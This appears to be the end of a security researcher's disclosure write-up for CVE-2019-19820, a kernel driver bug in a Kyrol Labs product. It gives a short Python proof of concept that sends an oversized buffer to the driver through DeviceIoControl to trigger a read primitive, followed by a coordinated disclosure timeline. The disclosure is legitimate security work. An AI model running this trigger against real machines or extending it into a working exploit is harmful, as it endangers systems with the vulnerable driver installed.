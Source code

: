 Proof-of-Concept
----------------
Few lines of Python should sufficient enough to trigger the vulnerability. The bug itself is a read primitive so I will leave the rest to you to figure out.
```
import ctypes, sys
from ctypes import *
 
kernel32 = windll.kernel32
hDevice = kernel32.CreateFileA("\\\\.\\10774948FAA234777974ED537F346B29F", 0xC0000000, 0, None, 0x3, 0, None)
buffer = "A"*2048
buffer_length = len(buffer)
kernel32.DeviceIoControl(hDevice, 0x9C402405, buffer, buffer_length, None, 0, byref(c_ulong()), None)
```

**Disclosure timeline**
```
2019-01-02 - Reported to Kyrol Labs (via email)
2019-01-04 - Vendor ack but they seems to be confuse what is happening.
2019-04-18 - Ask for update, they said give another 2 weeks.
2019-04-18 - NACSA steps in (Thanks Abu!). Video conferencing with the NACSA (twice!).
2019-07-03 - Second meeting with NACSA and vendor. Vendor told us they will come up with new product by October 2019.
2019-09-01 - Third meeting with NACSA and vendor (before we presenting at POC in Korea). Kyrol couldn't release the new product at that time. Considering it as 0-day!
2019-11-07 - We present our findings in POC conference in Korea.
2019-12-04 - Full disclosure. Will look forward to request CVE's for this :)
2019-12-17 - CVE assigned, CVE-2019-19820.
```

Happy Hacking!
